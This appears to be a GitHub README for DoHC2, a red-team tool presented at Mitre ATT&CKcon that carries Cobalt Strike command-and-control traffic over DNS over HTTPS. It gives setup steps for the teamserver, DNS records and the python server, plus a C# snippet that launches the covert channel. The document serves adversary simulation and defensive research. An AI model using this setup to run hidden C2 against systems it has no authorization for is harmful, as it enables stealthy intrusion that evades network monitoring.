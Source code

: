 # DoHC2

DoHC2 allows the ExternalC2 library from Ryan Hanson (https://github.com/ryhanson/ExternalC2) to be
leveraged for command and control (C2) via DNS over HTTPS (DoH). This is built for the popular 
Adversary Simulation and Red Team Operations Software Cobalt Strike (https://www.cobaltstrike.com).

## Presentation

This project was released on October 23rd 2018 at [Mitre ATT&CKcon](https://www.mitre.org/attackcon). 

Slides:
[Playing Devil’s Advocate to Security Initiatives with ATT&CK](Mitre_Attackcon_Playing_Devils_Advocate_With_Attack_1.0.pdf)

Blog Article:
[DOH! DNS Over HTTPS Poses Possible Risks to Enterprises](https://www.trustwave.com/Resources/SpiderLabs-Blog/DOH!-DNS-Over-HTTPS-Poses-Possible-Risks-to-Enterprises/)

## Diagram

![Screenshot](dohc2_diagram.png)

## Usage

1. Install and launch Cobaltstrike teamserver.
2. Launch a beacon_http/beacon_https listener - *Gotcha* This can be firewalled off but you need this for External C2 to work.
3. Load in script 'external_c2.cna' to Start ExternalC2 port 2222 (Firewall off).
4. Install dependencies for python3 server.
5. Allow port 53/udp to Internet (or to the DoH provider IP ranges).
6. Create an A record on your domain to point to the teamserver/DNS server IP i.e. [A] entry.example.org -> 000.000.000.000
7. Create an NS record to point to the A record for send channel (INPUTDOMAIN) i.e. [NS] send.example.org -> entry.example.org.
8. Create an NS record to point to the A record for receive channel (OUTPUTDOMAIN) i.e. [NS] receive.example.org -> entry.example.org.
9. Change INPUTDOMAIN and OUTPUTDOMAIN in DoHC2.py. Change encryption key/IV - this is used to encrypt the path from Teamserver-->Client Only (Encrypts Stager). Change max_records from 1 depending on DoH provider, some providers reorder records returned which is not currently handled. Max 5 works well with DNS server.
10. Launch python3 DNS server.
11. Build ExternalC2 library. Change encryption key/IV in DoHChannel.cs to match python3 server. 
12. Configure and launch DoHC2() as below being sure to set INPUTDOMAIN, OUTPUTDOMAIN and a [DoH provider](https://github.com/curl/curl/wiki/DNS-over-HTTPS) in format 'https://resolver.example.org/dns-query'.

## Server

Python DNS server based on [ACME DNS Server](https://github.com/pawitp/acme-dns-server)

* This interfaces raw DNS to the Cobalt Strike Teamserver on 127.0.0.1:2222 by default.
* Change INPUTDOMAIN and OUTPUTDOMAIN to be hosts that are NS of the server's external IP:

```bash
	pip3 install -r requirements.txt
	sudo python3 ./DoHC2.py
```

## Library

[@ryhanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) with the following additions:
* Channels> DoHChannel.cs - DoH implementation
* Channels > Base32.cs (from https://gist.github.com/BravoTango86/2a085185c3b9bd8383a1f956600e515f)
* DoHC2.cs - DoH channel set-up / wrapper
* Newtonsoft.JSON (https://www.newtonsoft.com/json) is added to project

## Example Client

* As with rest of ExternalC2 DoHC2 is COMVisible for JScript/DotNetToJS but this is a simple example to initiate it.
* The example client DoHC2Runner is a simple C# program to demo loading the library and setting it up as follows:

```csharp
	DoHC2 doh = new DoHC2();
	doh.Configure("<INPUTDOMAIN>","<OUTPUTDOMAIN>","<DoH URI i.e. https://dns.google.com/resolve or https://dns.example.org/dns-query");
	doh.Go();
```


## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

DoHC2

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [ExternalC2](https://github.com/ryhanson/ExternalC2)
* [ExternalC2 Spec](https://www.cobaltstrike.com/help-externalc2)
* [ACME DNS Server - (Python Server)](https://github.com/pawitp/acme-dns-server)
* [Python Shared File C2 - (Python Server)](https://github.com/outflanknl/external_c2)
* [Python External_C2_Framework - (Python Server)](https://github.com/Und3rf10w/external_c2_framework)
* [DNSExfiltrator - Python Server](https://github.com/Arno0x/DNSExfiltrator)
